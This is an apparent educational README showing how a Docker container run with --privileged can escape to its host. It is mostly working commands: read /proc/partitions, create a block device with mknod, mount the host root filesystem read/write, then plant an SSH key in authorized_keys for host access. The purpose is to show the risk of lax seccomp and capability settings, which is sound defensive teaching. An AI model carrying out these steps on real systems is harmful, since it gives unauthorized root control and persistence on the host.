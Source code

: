 # Misconfiguration Container Breakout

This demonstrates how running a priviliged container or running containers with lax seccomp policies and capabilities could lead to container breakout.

## Reproducing the attack

The simplest way to demonstrate this is issue is to run your Docker container with `--privileged`. The enables all capabilites, removes the seccomp profile and runs as root inside the container.

```bash
docker run -it --rm --privileged ubuntu:latest /bin/bash
```

Now that you are in the container, you want to access the root filesystem, of the host that the container is running on. 

_Note_ there are other ways to break out of the container, this is just one.

### Identify the root filesystem

Information about the host is mapped into the Docker container since the `/proc/partitions` file is mapped into the container. Read the contents of this file to pick your target:

```bash
cat /proc/partitions

major minor  #blocks  name                                                                                                                                                        
                                                                                                                                                                                  
 253        0   26214400 vda                                                                                                                                                      
 253        1   26100719 vda1                                                                                                                                                     
 253       14       4096 vda14                                                                                                                                                    
 253       15     108544 vda15 

```

This host has one disk `vda` and three partitions, `vda1`, `vda14`, `vda15`. Based on the size of `vda1` it is probably the root filesystem. So we will try and mount this to read files.

### Mount the filesystem

We will use the `mknod` utility here to demonstrate the dangers of not blocking system calls through seccomp. 
You need to specify the correct major and minor numbers for the partition, these will likely be different on the host you are testing.

```bash
mknod blk b 253 1
```

Now that we have blockdevice, we can mount it and read/write to it.

```bash
mkdir rootfs
mount blk rootfs
```

At this point it becomes really easy to interact with the underlying filesystem. We now have unrestricted access to the filesystem and can perform read/write opperations. Because our container is running as privileged and we are root inside the container (and that root user maps to the root user outside the container) it is possible to access any file.

### Full breakout

To fully breakout at this point you can use the usual techniques to go from file write to code execution in Linux. What normally works pretty well is to simply write a SSH key to the `authorized_keys`file and SSH into the host.

